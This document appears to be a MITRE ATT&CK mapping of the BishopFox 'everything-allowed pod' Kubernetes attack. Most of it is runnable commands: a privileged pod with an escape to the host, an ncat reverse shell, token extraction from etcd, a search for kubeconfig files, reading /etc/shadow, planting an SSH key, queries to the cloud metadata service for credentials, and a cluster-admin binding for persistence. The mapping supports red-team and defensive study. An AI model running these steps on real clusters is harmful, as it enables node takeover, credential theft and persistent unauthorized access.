

# MITRE ATT&CK Mapping: Everything-Allowed Pod

---

## Attack Flow Overview



---

## Phase 1: Pod Creation & Access

### Step 1: Create and access the pod

**Procedures:**

**1.1. Deploy malicious pod**
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
```
- **T1609** - Container Administration Command
  - Deploy container with dangerous security context (privileged, hostPath, hostPID, hostIPC, hostNetwork)

**1.2. Exec into container and escape to host**
```bash
kubectl exec -it everything-allowed-exec-pod -- chroot /host bash
```
- **T1609** - Container Administration Command (kubectl exec to execute commands in container)
- **T1611** - Escape to Host (chroot to mounted host filesystem gives full root access to node)

**Dangerous Pod Configuration:**
```yaml
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

**1.3. Alternative: Reverse shell method**
```bash
# Step 1: Set up listener
ncat --ssl -vlp 3116

# Step 2: Create pod with reverse shell
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/everything-allowed/pod/everything-allowed-revshell-pod.yaml | kubectl apply -f -

# Step 3: Catch shell and chroot
chroot /host
```
- **T1095** - Non-Application Layer Protocol
  - Encrypted reverse shell connection using ncat --ssl for command and control

---

## Phase 2: Post Exploitation

### Step 2: Run pod on control-plane node

**Procedures:**

**2.1. Enumerate cluster nodes**
```bash
kubectl get nodes
```
- **T1082** - System Information Discovery
  - Enumerate cluster nodes to identify control-plane

**2.2. Schedule pod on control-plane node**
```bash
# Edit manifest: nodeName: k8s-control-plane
kubectl apply -f manifests/everything-allowed/job/everything-allowed-exec-job.yaml
```
- **T1610** - Deploy Container
  - Deploy container to specific node (control-plane) to access critical services like etcd

---

### Step 3: Read secrets from etcd

**Procedures:**

**3.1. Locate etcd database**
```bash
ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
- **T1057** - Process Discovery
  - Enumerate processes to locate etcd service and database path

**3.2. View raw data in etcd**
```bash
strings /var/lib/etcd/member/snap/db | less
```
- **T1555.004** - Credentials from Password Stores: Cloud Secrets Management Stores
  - Extract secrets from etcd (Kubernetes' secret storage backend)

**3.3. Extract tokens with service account names**
```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```
- **T1555.004** - Credentials from Password Stores: Cloud Secrets Management Stores
  - Extract all service account tokens from etcd database

**3.4. Filter for kube-system tokens**
```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
- **T1555.004** - Credentials from Password Stores: Cloud Secrets Management Stores
  - Target high-privilege service accounts in kube-system namespace

---

### Step 4: Look for kubeconfigs in the host filesystem

**Procedures:**

**4.1. Search for kubeconfig files**
```bash
find / -name kubeconfig
find / -name .kube
```
- **T1083** - File and Directory Discovery
  - Search filesystem for kubeconfig files and .kube directories

**4.2. Grep for kubeconfig context strings**
```bash
grep -R "current-context" /home/
grep -R "current-context" /root/
```
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Locate kubeconfig files containing cluster admin credentials by searching for context markers

---

### Step 5: Grab all tokens from all pods on the system

**Procedures:**

**5.1. Copy helper script into pod**
```bash
kubectl cp scripts/can-they.sh everything-allowed-exec-pod:/
```
- **T1570** - Lateral Tool Transfer
  - Transfer attack tool (can-they.sh) into compromised container

**5.2. Exec into pod and prepare script**
```bash
kubectl exec -it everything-allowed-exec-pod -- bash
chmod +x can-they.sh
```
- **T1609** - Container Administration Command
  - Execute commands in container to prepare enumeration tool

**5.3. Access service account tokens from all pods**
```bash
# Script internally accesses:
# /host/var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/*/token
```
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Access service account tokens from mounted secrets in `/var/lib/kubelet/pods/`

**5.4. Enumerate token permissions**
```bash
./can-they.sh
./can-they.sh -i "--list -n kube-system"
./can-they.sh -i "list secrets -n kube-system"
./can-they.sh -i "create pods -n kube-system"
./can-they.sh -i "create clusterrolebindings"
```
- **T1613** - Container and Resource Discovery
  - Enumerate permissions of stolen service account tokens via selfsubjectaccessreviews API
  - Identify tokens that can create pods, view secrets, or create clusterrolebindings

---

### Step 6: Some other ideas

**Procedures:**

**6.1. Add SSH key for persistent access**
```bash
echo "ssh-rsa AAAA..." >> /root/.ssh/authorized_keys
```
- **T1098.004** - Account Manipulation: SSH Authorized Keys
  - Add SSH public key to gain persistent access to node

**6.2. Crack passwords from /etc/shadow**
```bash
cat /etc/shadow
```
- **T1003.008** - OS Credential Dumping: /etc/passwd and /etc/shadow
  - Extract password hashes for offline cracking

**6.3. Explore mounted volumes**
```bash
ls -la /var/lib/kubelet/pods/*/volumes/
```
- **T1005** - Data from Local System
  - Access sensitive data from pod volumes on host filesystem

---

### Step 7: Attacks that apply to all pods (even without special permissions)

**Procedures:**

**7.1. Access cloud metadata service**
```bash
# AWS
curl http://169.254.169.254/latest/meta-data
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# GCP
curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/'

# Azure
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2020-10-01"
```
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query cloud metadata service for IAM credentials
  - Bypass network restrictions using hostNetwork: true

**7.2. Exploit anonymous-auth misconfiguration**
```bash
# Test kubelet read-only port
curl http://localhost:10255/pods

# Test kube-apiserver anonymous access
curl -k https://kubernetes.default.svc/api/v1/namespaces/kube-system/secrets
```
- **T1212** - Exploitation for Credential Access
  - Exploit misconfigured anonymous-auth on kubelet/apiserver to access secrets

**7.3. Exploit Kubernetes vulnerabilities**
- Check for known CVEs (e.g., CVE-2020-8558, path traversal, privilege escalation bugs)
- No specific technique (depends on exploit)

**7.4. Hunt for vulnerable applications in cluster**
```bash
# Scan services and pods for vulnerabilities
kubectl get services -A
kubectl get pods -A
```
- **T1046** - Network Service Discovery
  - Enumerate services and applications running in cluster

---

## Phase 3: Lateral Movement & Impact

### Step 8: Use stolen credentials for cluster takeover

**Procedures:**

**8.1. Use stolen high-privilege token**
```bash
# Use stolen token to create resources
kubectl --token=$STOLEN_TOKEN create pod malicious-pod -n kube-system

# Read all secrets
kubectl --token=$STOLEN_TOKEN get secrets -n kube-system
```
- **T1078.004** - Valid Accounts: Cloud Accounts
  - Use stolen Kubernetes service account token as valid credential

**8.2. Create cluster-admin binding for persistence**
```bash
kubectl --token=$STOLEN_TOKEN create clusterrolebinding pwn --clusterrole=cluster-admin --serviceaccount=default:default
```
- **T1098.001** - Account Manipulation: Additional Cloud Credentials
  - Create clusterrolebinding to grant cluster-admin to controlled service account

---
